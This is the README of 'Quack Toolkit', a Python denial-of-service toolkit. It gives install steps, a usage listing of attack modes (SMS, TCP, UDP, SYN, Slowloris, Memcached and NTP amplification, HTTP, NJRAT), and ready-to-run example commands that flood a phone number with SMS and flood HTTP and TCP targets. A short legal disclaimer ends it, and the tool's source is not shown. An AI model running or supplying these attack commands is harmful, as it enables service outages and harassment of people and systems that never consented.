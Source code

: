 # Quack Toolkit

<h3 align="center"><img src="https://user-images.githubusercontent.com/54115104/91619952-3d89dc80-e997-11ea-9411-b729c3d49eb4.png" alt="logo" height="250px"></h3>

<p align="center">
  <a href="http://entynetproject.simplesite.com/">
    <img src="https://img.shields.io/badge/entynetproject-Ivan%20Nikolsky-blue.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/releases">
    <img src="https://img.shields.io/github/release/entynetproject/quack.svg">
  </a>
  <a href="https://wikipedia.org/wiki/Python_(programming_language)">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://github.com/entynetproject/quack/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/entynetproject/quack.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/wiki">
      <img src="https://img.shields.io/badge/wiki%20-quack-lightgrey.svg">
 </a>
  <a href="https://twitter.com/entynetproject">
    <img src="https://img.shields.io/badge/twitter-entynetproject-blue.svg">
 </a>
</p>

***

# About Quack Toolkit

```
Quack Toolkit is a set of tools to provide denial 
of service attacks. Quack Toolkit includes SMS attack 
tool, HTTP attack tool and many other attack tools.
```

***

# Getting started

## Quack installation

> cd quack

> chmod +x install.sh

> ./install.sh

## Quack uninstallation

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Quack Toolkit execution

```
To run Quack Toolkit you should 
execute the following command.
```

> quack

```
usage: quack [-h] [--target <ip:port/URL/phone>]
             [--tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--timeout <timeout>] [--threads <threads>] [-u] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target <ip:port/URL/phone>
                        Target IP and port, URL or phone.
  --tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Attack tool.
  --timeout <timeout>   Timeout in seconds.
  --threads <threads>   Threads count.
  -u, --update          Update Quack Toolkit.
  --version             Show Quack Toolkit version.
```

***
  
# Quack Toolkit examples

## Example of the SMS attack
    
> quack --tool SMS --target 15554443333 --timeout 10 --threads 10
    
## Example of the HTTP attack

> quack --tool HTTP --target http://<span></span>example.com/ --timeout 10 --threads 10
    
## Example of the TCP attack

> quack --tool TCP --target 192.168.1.100:80 --timeout 10 --threads 10

***

# Quack Toolkit disclaimer

```
Usage of the Quack Toolkit for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, federal, and international laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
```
